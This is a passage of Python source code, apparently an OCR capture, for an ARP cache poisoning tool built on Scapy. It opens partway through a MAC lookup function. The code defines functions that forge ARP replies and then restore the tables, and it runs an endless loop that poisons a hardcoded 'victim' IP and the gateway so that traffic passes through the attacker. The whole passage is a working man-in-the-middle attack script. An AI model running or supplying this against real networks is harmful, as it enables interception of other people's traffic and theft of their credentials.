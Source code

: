 ```python
        return answered_list[0][1].hwsrc
    else:
        return None

def spoof(target_ip, spoof_ip):
    """
    Sends a forged ARP reply to the target to poison its ARP cache.
    """
    target_mac = get_mac(target_ip)
    if not target_mac:
        print(f"[-] Cannot resolve MAC for {target_ip}. Exiting.")
        sys.exit(0)
    
    # op=2 signifies an ARP Reply
    # pdst: destination IP, hwdst: destination MAC, psrc: source IP (the IP to be spoofed)
    packet = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    send(packet, verbose=False)

def restore(destination_ip, source_ip):
    """
    Restores the ARP table to its original state.
    """
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    
    if destination_mac and source_mac:
        packet = ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
        send(packet, count=4, verbose=False)

# --- Execution Part ---
target_ip = "192.168.0.100"  # Victim's IP
gateway_ip = "192.168.0.1"   # Gateway's IP

try:
    sent_packets_count = 0
    while True:
        # Trick the victim into thinking we are the gateway
        spoof(target_ip, gateway_ip)
        # Trick the gateway into thinking we are the victim
        spoof(gateway_ip, target_ip)
        
        sent_packets_count += 2
        print(f"\r[+] Packets sent: {sent_packets_count}", end="")
        time.sleep(2) # Repeat every 2 seconds
except KeyboardInterrupt:
    print("\n[-] Detected CTRL+C ... Resetting ARP tables. Please wait.")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)
    print("[+] ARP tables restored.")
```
